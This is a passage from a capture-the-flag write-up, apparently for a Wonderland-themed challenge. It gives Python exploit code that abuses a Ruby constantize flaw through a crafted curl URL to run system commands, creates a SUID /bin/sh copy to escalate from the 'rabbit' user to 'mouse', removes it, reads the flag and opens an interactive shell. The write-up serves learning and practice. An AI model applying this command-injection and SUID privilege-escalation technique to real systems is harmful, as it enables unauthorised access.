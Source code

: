 Notice that the owner of the new `/tmp/testing` file is `mouse`. This confirms the arbitrary code
execution.

#### Crafting an Exploit

As with the previous stage, all exploit code remains the same and is extended for this stage.

After the first dill RCE has been triggered and we get a `rabbit` shell, a CURL command with the
payload to copy `/bin/sh` to `/tmp/hackers_use_me/pwn` and set it SUID is constructed. This request
is then sent to create a way for us to escalate to the `mouse` user.

```python
    # Create a mouse SUID shell via the pool-of-tears constantize vulnerability.
    # Construct the URL
    log.info('Constructing pool-of-tears exploit URL.')
    binbash = quote('../../../../../../../bin/bash', safe='')
    cmd_args = [
        'cp /bin/sh /tmp/hackers_use_me/pwn',
        'chmod +x /tmp/hackers_use_me/pwn',
        'chmod +s /tmp/hackers_use_me/pwn'
    ]
    cmd = quote(';'.join(cmd_args), safe='')
    exploit_url = ('http://localhost:4000/api/v1/smoke?uniqid={}&ctype=Kernel&cop=system&'
                   'cargs[]=-c&cargs[]={}&content=potato').format(binbash, cmd)
    # Send the exploit to abuse Kernel.system to create a mouse SUID binary.
    log.info('Sending curl request to trigger the creation of the SUID binary.')
    c.sendline("curl '{}'".format(exploit_url))
    c.recvuntil('Type is not implemented yet.')
```

Next, the escalation is triggered. We are now successfully acting as the `mouse` user.

```python
    # Trigger the privilege escalation, /bin/sh -p.
    log.info('Triggering the SUID binary to escalate to the mouse user.')
    c.sendline('/tmp/hackers_use_me/pwn -p')
```

The binary is removed so that others who may stumble across it do not have access to it.

```python
    # Remove the binary.
    log.info('Removing the SUID binary to clean up the tracks.')
    c.sendline('rm /tmp/hackers_use_me/pwn')
```

Finally, the flag is retrieved by executing yet another SUID wrapper and an interactive shell is
dropped.

```python
    # Get the flag.
    log.info('Getting the flag by executing /home/mouse/flag3.bin')
    log.success('Flag 3:')
    c.sendline('/home/mouse/flag3.bin')
    c.sendline('echo END_OF_FLAG')
    log.success(c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b''))

    # Drop into an interactive shell.
    log.success('Enjoy your shell!')
    c.interactive()
```
